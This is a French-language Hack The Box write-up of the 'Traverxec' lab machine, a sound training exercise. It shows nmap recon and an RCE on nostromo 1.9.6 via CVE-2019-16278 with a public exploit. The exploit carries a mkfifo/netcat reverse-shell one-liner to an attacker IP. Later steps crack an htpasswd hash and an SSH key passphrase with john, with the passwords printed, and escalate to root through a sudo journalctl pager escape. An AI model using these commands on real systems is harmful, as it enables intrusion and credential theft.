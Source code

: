 # Infos

Level : easy  
OS : Linux  
IP : 10.129.24.71  
Hostname: traverxec

# Reconnaissance

## Nmap TCP base

```
nmap -T4 --min-rate 10000 -sV -oN nmap_base 10.129.24.71 -v

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
80/tcp open  http    nostromo 1.9.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On est sur l'OS Linux, sur le port 80, on retrouve la version de nostromo 1.9.6 qui peut être intéressant pour la suite.

# Enumération

## Port 80/tcp - HTTP

Sur le site, on retrouve une page web statique. Si on se renseigne sur  [nostromo](https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=NHTTPD), on peut voir qu'il s'agit d'un serveur web très minimaliste.

![[../traverxec/img/80-site.png]]

En bas de la page, on a un formulaire, mais il ne fonctionne pas

![[80-form-disabled.png]]

## Foothold - www-data

Pas de robots.txt, on commence par fuzz les répertoires et fichiers, mais ça ne donne rien. Si on recherche des exploits en lien avec la version de nostromo, on retrouve un [exploit](https://www.exploit-db.com/exploits/47837) concernant la [CVE-2019-16278](https://nvd.nist.gov/vuln/detail/CVE-2019-16278) permettrant un path traversal dans la fonction `http_verify`, cela mène à une RCE.

L'exploit semble un peu vieux, on va en chercher un autre. Rapidement, on trouve cet [exploit](https://raw.githubusercontent.com/jas502n/CVE-2019-16278/master/CVE-2019-16278.sh) en bash sur Github. Cela nous demande l'hôte comme premier argument, puis le port en second argument et enfin la commande que l'on souhaite.

![[80-rce.png]]

Ca fonctionne et on obtient bien une RCE. Essayons maintenant d'obtenir un reverse shell Bash TCP, ça ne fonctionne pas, mais si on essaye avec le reverse shell mkfifo ça passe et on récupère un shell en tant que www-data

`bash CVE-2019-16278.sh 10.129.24.71 80 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.33 9001 >/tmp/f"`

![[shell-www-data.png]]

## Mouvement latéral - david

Sur la machine, on retrouve deux utilisateurs, david qui pourrait être notre pivot et le compte root.

Lancement de linpeas, on peut voir un kernel un peut vieux

`OS: Linux version 4.19.0-6-amd64 (debian-kernel@lists.debian.org) (gcc version 8.3.0 (Debian 8.3.0-6)) #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20)`

Variables d'env

![[www-data-peas-env.png]]

Crontab

`-rw-r--r-- 1 root root    1042 Jun 23  2019 /etc/crontab`

.htpasswd

![[www-data-peas-htpasswd.png]]

`david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/`

On peut tenter de cracker ce hash et ça fonctionne `Nowonly4me`, mais impossible d'utiliser ce mot de passe via su ou SSH

`john --format=md5crypt hash-md5-david.txt --wordlist=/opt/rockyou.txt`

![[lat-crack-hash.png]]

Dans le répertoire contenant le server web nostromo, on retrouve un fichier de conf `nhttpd.conf` qui nous permet de voir qu'il y a un dossier accessible `public_www` sous `/home/david/public_www`

![[lat-conf-nostromo.png]]

Quand on y accède on retrouve un fichier et un dossier :
- index.html
- protected-file-area -> folder

Dans ce dossier on retrouve également deux fichiers :
- .htaccess -> ne donne rien
- backup-ssh-identity-files.tgz -> archive d'un backup SSH -> juicy :p

![[lat-david-tgz.png]]

On ne peut pas décompresser l'archive sur la target, mais on peut essayer de le transférer sur la machine d'attaque. Ca ne fonctionne pas, on peut tenter de copier le fichier dans /tmp, lui assigner les droits et le décompresser

![[tmp-backup-ssh.png]]

Ca fonctionne et on retrouve sa clé privée RSA chiffrée sous `/tmp/home/david/.ssh/id_rsa`

![[lat-david_idrsa_crypt.png]]

Utilisation de ssh2john pour générer un hash

`/opt/tools/john/run/ssh2john.py id_rsa_david > id_rsa_david_hash`

![[lat-david-idrsa_hash.png]]

Crack avec JtR, on retrouve le mdp `hunter`

`john id_rsa_david_hash --wordlist=/opt/rockyou.txt`

![[lat-david-idrsa_crack.png]]

Tentative de connexion en SSH et récupération du flag user.txt

`ssh -i id_rsa_david david@10.129.24.71`

![[Hack The Box/traverxec/img/userflag.png]]

## Elévation de privilèges - root

Lancement de linpeas pour trouver un path pour le root, sous `/home/david/bin/` on retrouve le fichier `server-stats.sh` qui fait appel à la commande sudo, ce qui pourrait être intéressant pour obtenir le compte root.

Si on l'exécute, on obtient ceci

`./server-stats.sh`

![[pe-server-stats.png]]

La dernière ligne fait appel à sudo sur journalctl, cela va ouvrir un less, on peut privesc de cette manière `!/bin/bash`

`/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service`

Après plusieurs tentatives, il faut deux terminaux pour que ça fonctionne, en effet si on tente avec un seul, le pager less ne se lance pas.

![[pe-suid-error.png]]

Alors qu'avec deux terminaux, ça fonctionne :D

![[rootflag.png]]


